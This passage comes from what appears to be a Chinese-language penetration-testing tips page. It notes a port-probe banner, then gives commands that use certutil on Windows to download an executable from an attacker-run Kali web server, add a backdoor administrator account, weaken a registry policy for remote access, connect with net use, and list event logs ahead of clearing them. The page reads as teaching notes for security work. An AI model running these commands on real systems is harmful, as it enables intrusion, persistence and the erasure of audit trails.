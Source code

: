 由此我们知道了这是一个http服务，因为我们发送的字符串不是一个合法的HTTP请求，因此返回一个400 Bad requests，我们还得到了系统的版本是Debian，WebServer是Apache

参考： 

[《谈谈端口探测的经验与原理》](http://www.freebuf.com/articles/network/146087.html)

---

### Tips 2. Windows系统从Kali下载文件

Kali:

```
python -m SimpleHTTPServer 80
```

Windows:

```
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
```
参考： 

[《渗透测试中的certutil.exe》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)

---

### Tips 3. 配置工作组计算机,使其支持net use远程连接

添加用户：

```
net user test test /add
net localgroup administrators test /add
```

修改注册表，使其支持远程连接：

```
reg add hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
```

net use远程连接：

```
net use \\192.168.1.195 test /u:test
```

---

### Tips 4. Windows evtx日志清除

获取evtx日志分类列表：

```
wevtutil el >1.txt
```
